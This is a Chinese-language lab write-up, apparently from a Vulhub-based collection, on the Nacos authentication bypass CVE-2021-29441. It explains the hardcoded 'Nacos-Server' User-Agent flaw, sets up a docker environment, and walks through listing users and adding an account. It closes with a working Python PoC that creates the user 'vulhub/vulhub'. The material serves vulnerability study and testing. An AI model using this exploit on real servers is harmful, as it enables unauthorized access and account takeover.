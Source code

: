 # Nacos 认证绕过漏洞 CVE-2021-29441

## 漏洞描述

Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。

该漏洞发生在 nacos 在进行认证授权操作时，会判断请求的 user-agent 是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的 user-agent 设置为 Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。

参考链接：

- https://github.com/advisories/GHSA-36hp-jr8h-556f

## 环境搭建

Vulhub 运行漏洞环境：

```
docker-compose up -d
```

环境运行后，会开放 3306、8848、9848、9555 端口，在本次漏洞利用中，我们只需要用到 8848 端口，即 web 访问端口。

执行漏洞验证过程时，请先访问 8848 端口，确认开放，某些情况下 nacos 服务会启动失败（无法连接数据库导致），可以重启 nacos 服务或者重启所有服务。

```
docker-compose restart nacos
```

## 漏洞复现

漏洞利用过程如下：

1. 修改 User-Agent 的值为 Nacos-Server 到请求包中
2. 访问 `http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9` 查看状态码是否为 200，且内容中是否包含 `pageItems`
3. 使用 POST 方式访问 `http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub` 添加一个新用户
4. 访问 `http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9` 获取已有的用户列表
5. 访问 `http://target:8848/nacos/`，使用添加的新用户 (vulhub/vulhub) 进行登录

**检测漏洞是否存在**

添加 Header 头后访问 `http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9` 可以看到返回值为 200，且内容中是否包含 `pageItems`。

![image-20220226230032045](images/202202262300141.png)

**添加新用户**

添加 Header 头后使用 `POST` 方式请求 `http://target:8848/nacos/v1/auth/users?username=test&password=test` 添加一个新用户，账号密码都为 `test`。

![image-20220226230105927](images/202202262301006.png)

**使用新建的账号进行登录**

使用账号密码 `test/test` 登录。

![image-20220226230250829](images/202202262302898.png)

## 漏洞 POC

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import sys

import requests

headers = {
    "User-Agent": "Nacos-Server"
}


def check(target):
    endpoint = "/nacos/v1/auth/users?pageNo=1&pageSize=9"
    r = requests.get(target.strip("/") + endpoint, headers=headers)
    if r.status_code == 200 and "pageItems" in r.text:
        print target + " has vulnerabilities"
        return True
    print target + "has not vulnerabilities"
    return False


def add_user(target):
    add_user_endpoint = "/nacos/v1/auth/users?username=vulhub&password=vulhub"

    r = requests.post(target.strip("/") + add_user_endpoint, headers=headers)
    if r.status_code == 200 and "create user ok" in r.text:
        print "Add User Success"
        print "New User Info: vulhub/vulhub"
        print "Nacos Login Endpoint: {}/nacos/".format(target)
        exit(1)

    print "Add User Failed"


if __name__ == '__main__':
    if len(sys.argv) != 2:
        print "Please specify the target: python poc.py http://xxxxx:8848"
        exit(-1)
    if check(sys.argv[1]):
        add_user(sys.argv[1])
```

```
python poc.py http://target:8848
```

![image-20220226225534784](images/202202262255839.png)
